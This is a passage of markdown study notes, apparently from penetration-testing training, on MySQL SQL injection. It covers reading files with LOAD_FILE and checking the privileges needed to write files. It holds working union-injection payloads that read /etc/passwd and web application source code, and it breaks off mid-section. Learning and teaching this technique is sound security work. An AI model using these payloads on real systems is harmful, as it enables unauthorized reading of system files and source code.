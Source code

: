 #### LOAD_FILE Function

- **Purpose**: Read data from files on the server.
- **Example**:
  ```sql
  SELECT LOAD_FILE('/etc/passwd');
  ```
  - Reads the contents of the `/etc/passwd` file.
  
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
  ```
  - Reads the contents of the `/etc/passwd` file and displays it.

#### Reading Application Source Code

- **Purpose**: Read the source code of web application files.
- **Example**:
  ```sql
  SELECT LOAD_FILE("/var/www/html/search.php");
  ```
  - Reads the source code of `search.php` file.

- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
  ```
  - Displays the source code of `search.php`.

---

# Writing Files using SQL Injections

#### Write File Privileges

- **Requirements**:
  - User with `FILE` privilege enabled.
  - MySQL global `secure_file_priv` variable not enabled.
  - Write access to the desired location on the back-end server.

#### Checking Write File Privileges

- **Determine Current User**:
  ```sql
  SELECT USER();
  SELECT CURRENT_USER();
  SELECT user FROM mysql.user;
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, user(), 3, 4-- -
  ```

#### Checking `secure_file_priv`

